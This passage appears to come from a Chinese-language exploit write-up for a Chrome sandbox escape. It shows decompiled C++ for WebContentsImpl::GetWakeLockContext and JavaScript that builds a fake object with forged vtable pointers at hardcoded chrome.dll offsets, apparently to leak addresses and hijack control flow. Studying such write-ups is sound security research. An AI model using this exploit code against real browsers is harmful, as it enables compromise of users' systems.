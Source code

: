 ```cpp
void VirtualFunction() override() {
    some_member_ = new SomeClass();
}
```

这里选择使用的虚函数是`content::WebContentsImpl::GetWakeLockContext`：

```cpp
struct device::mojom::WakeLockContext *__fastcall content::WebContentsImpl::GetWakeLockContext(content::WebContentsImpl *this)
{
  __int64 v1; // rdi
  char *v3; // rdi
  content::WakeLockContextHost *someobj; // rbx

  v1 = *((_QWORD *)this + 0xCA);		
  if ( !v1 )
  {
    v3 = (char *)this + 0x650;
    someobj = (content::WakeLockContextHost *)operator new(0x40ui64);		// 分配一个新对象
    content::WakeLockContextHost::WakeLockContextHost(someobj, this);		
    std::unique_ptr<content::WakeLockContextHost>::reset(v3, someobj);		// 将对象的地址写入this+offset的地方
    v1 = *((_QWORD *)this + 202);
  }
  if ( !*(_DWORD *)(v1 + 32) && !*(_QWORD *)(v1 + 24) )
    return 0i64;
  mojo::internal::InterfacePtrState<device::mojom::WakeLockContext>::ConfigureProxyIfNecessary(v1 + 16);
  return *(struct device::mojom::WakeLockContext **)(v1 + 56);
}
```

而且`content::WakeLockContextHost::WakeLockContextHost(someobj, this);`，还会将this的地址写入到someobj地址偏移+8处，为我们后面泄露出this的地址给了很大的方便

相对应的js代码：

```javascript
            const kWakeLockContextOffset = 0x650;
			const kGetFieldAddrVptr = 0x71A90E0n  + ChromeDllBase;        // syncer::LoopbackServerEntity::GetId
			const kGetWakeLockContextVptr = 0x663DCD8n + ChromeDllBase;      // content::WebContentsImpl::GetWakeLockContext
			const kFirstCallVtableOffset = 0x48;
    		const kSecondCallVtableOffset = 0xd0;
    		const kThirdCallVtableOffset = 0x18;
			let data = new ArrayBuffer(kRenderFrameHostSize);
            let view = new DataView(data);

            /* copy the allocation data to the end */
            let allocView = new DataView(allocData);
            let dataOffset = kRenderFrameHostSize - allocData.byteLength;
            for (var i = 0; i < allocData.byteLength; i++) {
                view.setUint8(dataOffset + i, allocView.getUint8(i));
            }

            offset = 0;
            view.setBigUint64(offset, kGetFieldAddrVptr - BigInt(kFirstCallVtableOffset), true);
            offset += kFieldAddrOffset;
            view.setBigUint64(offset, kGetFieldAddrVptr - BigInt(kSecondCallVtableOffset), true);
            offset += kFieldAddrOffset;
            view.setBigUint64(offset, kGetWakeLockContextVptr - BigInt(kThirdCallVtableOffset), true);
            // view.setBigUint64(offset + kThirdCallVtableOffset, kLeakGadget, true); // setup leak gadget
```